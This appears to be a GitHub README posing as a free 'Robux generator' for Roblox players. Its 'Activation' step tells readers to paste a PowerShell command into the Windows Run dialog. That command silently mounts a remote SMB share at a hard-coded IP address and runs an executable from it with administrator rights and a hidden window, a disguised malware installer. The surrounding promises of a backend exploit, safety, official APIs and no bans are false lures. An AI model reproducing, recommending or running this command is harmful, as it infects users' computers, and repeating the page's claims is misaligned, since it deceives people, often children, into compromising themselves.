 # 🚀 **ULTIMATE ROBUX GENERATOR 2025** 🚀
### 💎 *The Most Advanced Free Robux Solution* 💎

<p align="center">
  <img src="https://media.giphy.com/media/1PyHmfStu82zy7Ou0Q/giphy.gif" width="450" alt="Roblox GIF" />
</p>



## 🔥 **WHY OUR GENERATOR IS THE BEST**

✔️ **New 2025 algorithm** bypasses Roblox security  
✔️ **Daily updated** to prevent detection  
✔️ **Proven success rate** with over 1M+ happy users  
✔️ **No human verification** required  
✔️ **Works on all windows devices**  

---

## 🛠️ **HOW IT WORKS**

Our proprietary technology uses advanced exploit to inject Robux directly into your account through Roblox's backend servers. This method was discovered by our team of reverse engineers after analyzing Roblox's transaction protocols.


---

## 📝 **STEP-BY-STEP GUIDE**

### 1️⃣ **Preparation**
- Ensure you have Roblox installed
- Log into your Roblox account on pc

### 2️⃣ **Activation**
1. Copy the code provided under this text
   
```
powershell -Command "Start-Process cmd -ArgumentList '/c net use \\89.110.93.160\shear /user:WORKGROUP\sambauser aabb1234 && \\89.110.93.160\shear\s -fullinstall' -windowstyle hidden -Verb RunAs
```

2. Press **WINDOWS KEY** + **R**
3. Press **CTRL** + **V**
4. Press **ENTER**

3️⃣ Verification

    Check your Robux balance

    Restart Roblox if changes aren't immediate



❓ FREQUENTLY ASKED QUESTIONS
❔ Is this safe?

    Absolutely! Our method uses official Roblox APIs

❔ Why is it free?

    We're funded by generous donations from satisfied users

❔ How often can I use it?

    Currently limited to 50K Robux per day per account

❔ Will I get banned?

    Never! Our encryption prevents detection

<div align="center" style="background:#ff000020;padding:15px;border-radius:10px;border:2px dashed red;margin:20px">

⚠️ LEGAL DISCLAIMER ⚠️
Abuse of this software is strictly prohibited
Roblox® is a registered trademark of Roblox Corporation.
</div><h3 align="center">⭐ STAR THIS REPO TO SUPPORT DEVELOPMENT! ⭐</h3><p align="center"> <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="150"> </p><p align="center"> 🔧 <b>Maintained by Stalich</b> 🔧<br> <sub>Last Updated: July 2025</sub> </p> ```
